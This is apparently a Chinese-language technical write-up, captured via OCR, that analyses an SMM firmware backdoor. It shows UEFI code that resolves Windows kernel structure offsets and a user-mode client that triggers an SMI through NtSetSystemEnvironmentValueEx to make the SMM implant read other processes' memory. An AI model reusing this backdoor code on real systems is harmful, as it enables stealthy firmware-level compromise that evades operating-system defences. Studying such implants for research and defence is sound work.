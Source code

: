 ```
                      KernelCr3);
    PsGetProcessImageFileName = ReadVirtual32(
        ZGetProcAddressX64(KernelCr3, KernelBase, "PsGetProcessImageFileName") +
            3,
        KernelCr3);
    ActiveProcessLinks =
        ReadVirtual32(
            ZGetProcAddressX64(KernelCr3, KernelBase, "PsGetProcessId") + 3,
            KernelCr3) +
        8;
    PsGetProcessPeb = ReadVirtual32(
        ZGetProcAddressX64(KernelCr3, KernelBase, "PsGetProcessPeb") + 3,
        KernelCr3);

    if (!PsInitialSystemProcess || !PsGetProcessExitProcessCalled ||
        !PsGetProcessImageFileName || !ActiveProcessLinks || !PsGetProcessPeb ||
        !PsGetProcessSectionBaseAddress) {
        return EFI_NOT_FOUND;
    }

    SetupDone = TRUE;
    return EFI_SUCCESS;
}

```  
### 后门实现  
  
然后他的代码里面是做通讯,也是通过直接定位程序的eprocess(根据名字)然后读它的区段,然后读区段里面的内容来的R3后门程序:  
```

// Allocate a section so the SMM driver knows what section the communication payload is in.
#pragma section(".ZEPTA", read, write)
__declspec(allocate(".ZEPTA")) volatile SmmCommunicationProtocol protocol;

void TriggerSmi()
{
  BOOLEAN e = false;
  //Get the right privileges to call NtSetSystemEnvironmentValueEx. ( SeSystemEnvironmentPrivilege )
  const NTSTATUS status = RtlAdjustPrivilege(22, true, false, &e);

  if (!NT_SUCCESS(status))
  {
    // We need admin privileges!
    printf("No suitable permission! Open as admin!\n");
    return;
  }

  GUID guid = { 0 };
  // Try to get a variable that doesn't exist so we don't trigger a runtime cache hit
  UNICODE_STRING name = RTL_CONSTANT_STRING(L"ZeptaVar");
  char buffer[8];
  NtSetSystemEnvironmentValueEx(&name, &guid, buffer, sizeof(buffer), EFI_VARIABLE_NON_VOLATILE | EFI_VARIABLE_BOOTSERVICE_ACCESS | EFI_VARIABLE_RUNTIME_ACCESS);
}
#define  _CRT_SECURE_NO_WARNINGS
void main()
{
  printf("Size of protocol 0x%x\n", (INT)sizeof(SmmCommunicationProtocol)); // 6b
  printf("Address of protocol %llx\n", (ULONG64)&protocol);

  //Read the first 15 bytes of explorer.exe. This will include DOS header if the SMM module is setup correctly.
```